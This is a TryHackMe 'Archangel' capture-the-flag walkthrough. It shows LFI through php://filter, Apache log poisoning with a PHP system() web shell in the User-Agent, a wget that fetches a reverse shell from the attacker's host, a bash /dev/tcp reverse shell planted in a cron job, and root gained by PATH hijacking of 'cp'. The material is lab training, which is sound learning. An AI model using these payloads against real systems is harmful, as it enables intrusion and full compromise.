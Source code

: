 # Archangel CTF [TryHackMe](https://tryhackme.com/room/archangel)

![Logo](./assets/archangel.jpeg)

---

```bash
export IP=10.10.62.137
```

---
## Index
- [Enumeration](#enumeration)
- [Gaining access](#getting-access-to-the-machine)
- [PrivEsc](#escalating-priviledges)
---

### Enumeration

```bash
$ nmap -sC -sV -v $IP -oN nmap/initial.nmap
$ nmap -p- $IP -T4 -oN nmap/all_ports.nmap
```

Ports:

```
22 ssh
80 http
```

Since we have a website we can explore, we can use gobuster to enumerate the pages.

```bash
$ gobuster dir -t 64 -u $IP -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .txt,.php,.jpg,.png,.html -o gobuster/dir_med.txt
```

Exploring the site, we notice that it has a hostname associated with it `mafialive.thm` which we can append to our `/etc/hosts` and accessing the site again from `mafialive.thm` shows us a development website.

Running gobuster _again_ on `mafialive.thm` we discover a `test.php` which appears to be asking for a LFI exploit.

![LFI](./assets/LFI.png)

![test page](./assets/test_php.png)

First we try checking `/etc/passwd` which is restricted, however, using php filter with b64, we can bypass this

```
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

![test php code](./assets/test_php_code.png)

And decrypt this to get the second flag!

Now looking at the php source code, we can exploit it by using `..//..` or `.././..` to navigate through the file directories (and cheekily nab the user.txt flag since we know what homes exists from `/etc/passwd`)

---

### Getting access to the machine

Now we have to look into getting a reverse shell onto the machine.
Now admittedly, I did get stuck here and used the hint, which points to some sort of poisoning. Googling around for hints, I realised it was referring to apache2 log poisioning.
First we check we can access the logs from here

`http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././../var/log/apache2/access.log`

And since we can, we can now execute arbitary commands through it. Enabling us to create a reverse-shell by manipulating our request headers in BurpSuite (or using curl but BurpSuite lets us repeat requests easily in case we make a mistake)

Modifying our `User-Agent` to `<?php system($_GET['cmd']); ?>` and adding `&cmd` to our request

~~~
GET /test.php?view=/var/www/html/development_testing/.././.././.././../var/log/apache2/access.log&cmd=whoami
~~~

And when we access the site, we can see appended to the end of our log, the results of our command `www-data`

Now we could create a reverse using this but it feels a bit _clunky_, so instead, what'll we'll do is upload a php reverse shell (assuming its a linux machine).

Constructing our request
Our side:

```bash
$ (cd ~/reverse_shells/php; python3 -m http.server 8888) || netcat -lvnp 9999
```

~~~
GET /test.php?view=/var/www/html/development_testing/.././.././.././../var/log/apache2/access.log&cmd=wget%20http://<<IP>>:<<port>>/revshell.php HTTP/1.1
Host: mafialive.thm
User-Agent: <?php system($_GET['cmd']); ?>
~~~

Now we can access the reverse shell from `http://mafialive.thm/revshell.php`

---

### Escalating Priviledges

Now that we have access as `www-data` we can enumerate the system to escalate priviledges. In order to speed this up, I also put linpeas onto the shell and run it.

I notice a file running in the crontab, which we could also edit, running by another use `archangel`. Modifying this file to create a new reverse-shell by adding this code:

![cronjob](./assets/cronjob.png)

```bash
$ bash -i >& /dev/tcp/IP/8888 0>&1
```

I noticed other write-ups created an ssh key for ease-of-access but I prefer this since it leaves less of a trace.

Now that we have access to more files, I notice a strange `backup` file owned by root but executable by anyone.

![backup](./assets/backup.png)

Running strings through the file, we notice something strange:

![relative path](./assets/cp_relative.png)

It is `PATH` exploitation time!

```bash
$ export PATH="$(pwd):$PATH"
```

And we can create a `cp` file which will give us root access

```bash
#!/bin/bash
/bin/bash -i
```

Remember to make it executable

```bash
$ chmod +x cp
$ ./backup
```

![PATH](./assets/path_exploit.png)

And we are _**complete!**_

![archangel](https://thumbs.dreamstime.com/b/archangel-michael-angel-divine-light-68373659.jpg)
